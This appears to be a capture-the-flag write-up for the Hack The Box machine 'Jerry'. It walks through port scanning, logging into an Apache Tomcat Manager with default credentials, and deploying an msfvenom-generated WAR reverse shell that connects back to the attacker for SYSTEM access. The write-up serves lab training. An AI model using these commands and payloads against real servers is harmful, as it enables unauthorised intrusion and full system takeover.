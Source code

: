 ```yaml
---
title: Hack The Box - Jerry (Without Metasploit)
date: 2021-01-17 13:58:00 +0800
categories: [hackthebox]
tags: [windows, tomcat]
---
```


![](/assets/images/jerry.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.95 jerry.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ rustscan --accessible -a jerry.htb -r 1-65535 -- -sT -sV -sC -Pn
File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.10.95:8080
Starting Script(s)
Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-16 20:00 UTC
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Initiating Connect Scan at 20:00
Scanning jerry.htb (10.10.10.95) [1 port]
Discovered open port 8080/tcp on 10.10.10.95
Completed Connect Scan at 20:00, 0.02s elapsed (1 total ports)
Initiating Service scan at 20:00
Scanning 1 service on jerry.htb (10.10.10.95)
Completed Service scan at 20:00, 6.61s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.95.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.41s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.04s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Nmap scan report for jerry.htb (10.10.10.95)
Host is up, received user-set (0.016s latency).
Scanned at 2021-01-16 20:00:28 UTC for 7s

PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:00
Completed NSE at 20:00, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.69 seconds
```

# Enumeration

## Port 8080 `Apache Tomcat/Coyote JSP engine 1.1`

![](/assets/images/jerry1.png)

We are presented with the `Apache Tomcat`'s interface. When we clicked on `Manager App`, we are prompted for credentials.

![](/assets/images/jerry2.png)

I tried the default credentials `tomcat:s3cret` and it logged us in!

![](/assets/images/jerry3.png)

# Exploitation

Since we have access to the `Manager App` page, this means we can upload a malicious `.WAR` file which I will be generating with `msfvenom`.

```bash
$ msfvenom -a x64 -p java/jsp_reverse_bind_tcp LHOST=10.10.XX.XX LPORT=1337 -f war > shell.war
Payload size: 1118 bytes
Final size of war file: 1118 bytes
```

![](/assets/images/jerry4.png)

After it is uploaded, we see that the `.WAR` file we uploaded has been deployed at `/shell`.

![](/assets/images/jerry5.png)

Now, we setup our `nc` listener.

```bash
$ rlwrap nc -lvnp 1337                                                             
listening on [any] 1337 ...
```

And browse to `/shell`. We will see that on our listener, we get a shell as `SYSTEM`!

```
$ nc -v jerry.htb 80 
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.95] 49464
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

# user.txt & root.txt

Both flags are stored as a file called `2 for the price of 1.txt`, available in a folder called `flags` on the `Administrator`'s Desktop.

```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004XXXXXXXXXXXXXXXXXXXXXXXXXXXX

root.txt
04a8XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !
